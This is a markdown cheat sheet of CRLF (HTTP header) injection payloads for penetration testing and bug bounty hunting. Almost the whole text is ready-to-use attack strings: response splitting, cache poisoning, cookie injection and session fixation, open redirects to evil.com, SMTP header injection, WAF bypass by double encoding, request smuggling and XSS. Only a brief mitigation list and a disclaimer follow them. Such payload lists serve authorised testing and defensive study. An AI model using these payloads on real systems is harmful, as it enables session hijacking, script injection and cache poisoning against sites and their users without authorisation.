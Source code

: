 # **CRLF Injection (HTTP Header Injection) Payload Cheat Sheet**

CRLF (Carriage Return `\r` + Line Feed `\n`) injection allows attackers to manipulate HTTP headers and responses by injecting malicious newline characters. Below are various payloads for testing and exploiting CRLF vulnerabilities.

---

## **1. Basic CRLF Injection Payloads**
### **URL-Based Injection**
```
/?param=test%0d%0aX-Injected-Header: hacked
/?q=test%0d%0aSet-Cookie: malicious=payload
/?redirect=http://evil.com%0d%0aX-Forwarded-Host: evil.com
```

### **HTTP Header Injection**
```
GET / HTTP/1.1
Host: example.com
User-Agent: Mozilla%0d%0aX-Malicious-Header: attack
Referer: http://example.com%0d%0aX-Forwarded-For: 127.0.0.1
```

---

## **2. HTTP Response Splitting (HRS)**
### **Splitting Headers**
```
/?param=test%0d%0aContent-Length: 0%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type: text/html%0d%0a%0d%0a<h1>Hacked</h1>
```

### **Cache Poisoning**
```
/?q=test%0d%0aX-Cache: HIT%0d%0aX-Forwarded-Host: evil.com
```

---

## **3. Log Poisoning (XSS via CRLF)**
### **Injecting JavaScript into Logs**
```
/?user=test%0d%0a<script>alert(1)</script>
/?param=test%0d%0aX-XSS-Protection: 0%0d%0a%0d%0a<script>alert(1)</script>
```

### **Log Forging**
```
/?action=login%0d%0a[SUCCESS] Admin logged in from 127.0.0.1
```

---

## **4. Cookie Injection & Session Fixation**
### **Setting Malicious Cookies**
```
/?sessionid=123%0d%0aSet-Cookie: admin=true
/?redirect=home%0d%0aSet-Cookie: PHPSESSID=malicious
```

### **Session Hijacking**
```
GET /profile HTTP/1.1
Host: example.com
Cookie: sessionid=legit%0d%0aSet-Cookie: sessionid=evil
```

---

## **5. Open Redirect + CRLF**
### **Redirect to Malicious Site**
```
/?url=http://example.com%0d%0aLocation: http://evil.com
/?next=/dashboard%0d%0aX-Forwarded-Host: evil.com
```

### **Bypassing URL Filters**
```
/?redirect=javascript://example.com%0d%0a%0d%0aalert(1)
```

---

## **6. SMTP Header Injection (Email CRLF)**
### **Email Header Injection**
```
From: attacker@evil.com%0d%0aCC: victim@example.com%0d%0aSubject: Malicious
```

### **Email Body Injection**
```
Message: Hello%0d%0a%0d%0a<script>alert(1)</script>
```

---

## **7. Bypassing WAFs & Filters**
### **Double Encoding**
```
/?q=test%250d%250aX-Injected: hacked
```

### **Using Different Line Endings**
```
/?param=test%0aX-Forwarded-For: 127.0.0.1 (Unix-style)
/?param=test%0dX-Forwarded-For: 127.0.0.1 (Old Mac-style)
```

---

## **8. Exploiting HTTP Request Smuggling (CRLF in Chunked Encoding)**
### **HTTP Request Smuggling**
```
POST / HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: example.com
```

---

## **9. Exploiting HTTP/2 (H2.CRLF)**
### **HTTP/2 CRLF Injection**
```
:method GET
:path /
:authority example.com
x-injected-header: test\r\nX-Malicious: payload
```

---

## **10. Real-World Exploit Examples**
### **XSS via CRLF in Location Header**
```
/login?next=%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>
```

### **Cache Deception**
```
/?q=test%0d%0aX-Cache: MISS%0d%0aX-Forwarded-Host: attacker.com
```

---

## **Testing Methodology**
1. **Identify Input Points** (URL params, headers, forms, cookies).
2. **Test for CRLF (`%0d%0a`)** in user-controlled fields.
3. **Check for Response Splitting** (multiple headers in response).
4. **Verify Impact** (XSS, cache poisoning, open redirects).
5. **Bypass Filters** (double encoding, alternative line endings).

---

## **Mitigation**
- **Filter `\r\n` in user input**.
- **Use URL encoding** for dynamic headers.
- **Implement strict HTTP parsing**.
- **Disable header rewriting** where possible.

---

### **⚠️ Legal & Ethical Considerations**
- **Only test on authorized systems**.
- **CRLF can lead to severe vulnerabilities (XSS, cache poisoning, session hijacking)**.
- **Disclose responsibly** if found in production.

---

This cheat sheet covers various CRLF injection techniques for penetration testing and bug bounty hunting. Use responsibly!